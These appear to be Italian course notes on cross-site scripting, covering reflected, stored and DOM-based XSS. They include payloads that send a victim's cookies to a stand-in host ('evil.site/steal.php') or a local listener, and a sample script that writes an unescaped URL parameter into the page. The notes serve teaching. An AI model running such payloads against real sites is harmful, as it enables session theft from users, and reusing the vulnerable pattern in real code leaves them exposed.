 I cookie possono anche essere rivelati attraverso **cross-origin** (SOP bypass):
```html
<!-- "%2b" è  l'url encoding di "+" -->
.../greet.php?name=<script>location.href='http://evil.site/steal.p
hp?cookie='%2bencodeURIComponent(document.cookie);</script>
```
>Link sospetti possono essere **offuscati** usando url shortner.

L'attacco appena visto reindirizza l'utente verso la pagina malevola e verrebbe notata, possiamo eseguire un attacco più **furtivo** eseguendo una richiesta `GET` in background.
```html
…/greet.php?name=r1x<script>var i=new Image;
i.src="http://localhost:8001/"%2Bdocument.cookie;</script>
```
>Come prima i cookie sono rivelati come parte dell'URL, in questo caso però l'immagine non esiste, l'errore non sarà visibile all'utente.

### Stored XSS
**Assunzione**: l'applicazione web **memorizza** l'input inviato al server e lo mostra come parte di una pagina web (e.g. post in un forum), anche in questo caso l'input potrebbe contenere codice.

Il codice malevolo è eseguito quando qualche utente visita le pagine **infette**.
1. L'attaccante **memorizza** uno script malevolo nell'applicazione vittima
2. L'utente visita la pagina della vittima ed **esegue** lo script
3. Lo script viene eseguito nel contesto dell'applicazione vittima ed esegue il **leak** dei dati sensibili dell'utente.

### DOM-based XSS
Simile al _reflected XSS_ ma il payload dell'attacco non è aggiunto alla pagina da parte del server.

L'inserimento del codice malevolo avviene client-side grazie a degli script già esistenti.
>Lo script esistente include lo script "injected" all'interno della pagina.

1. Una **pagina malevola** con un link all'applicazione vittima (o link inviato tramite mail, i.e. _phishing_)
2. L'utente **preme** il link contenente parametri malevoli
3. L'applicazione vittima **ritorna una pagina non infetta**
4. Uno script già esistente processa i parametri e come side effect **incorpora il codice malevolo**

```html
<select><script>
	document.write(
		"<OPTION value=1>"
		+ decodeURI(document.location.href.substring(
		document.location.href.indexOf("default=")+8 ))
		+ "</OPTION>"
	);
	document.write("<OPTION value=2>English</OPTION>");
</script></select>
```

In questo esempio viene composta la prima opzione dinamicamente dal parametro `default` della richiesta `GET` nell'url.

